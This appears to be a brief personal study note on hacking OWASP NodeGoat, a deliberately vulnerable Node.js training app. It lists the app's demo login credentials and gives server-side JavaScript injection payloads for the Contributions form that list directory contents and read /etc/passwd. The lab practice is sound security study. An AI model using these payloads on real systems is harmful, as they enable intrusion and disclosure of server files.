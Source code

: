 # *Hacking* NodeGoat
#web #hacking

https://github.com/OWASP/NodeGoat
https://wiki.owasp.org/index.php/Projects/OWASP_Node_js_Goat_Project

Tutorial
https://nodegoat.herokuapp.com/tutorial

Users
* Admin Account - u:admin p:Admin_123
* User Accounts (u:user1 p:User1_123), (u:user2 p:User2_123)
* New users can also be added using the sign-up page.


Injection attack
* Log in as
* Go to Contributions tab
* In the Employee Pre-Tax field, enter “res.end(require('fs').readdirSync('.').toString())” (without quotes)


res.end(require('fs').readdirSync('.').toString())

res.end(require('fs').readFileSync(‘/etc/passwd’))
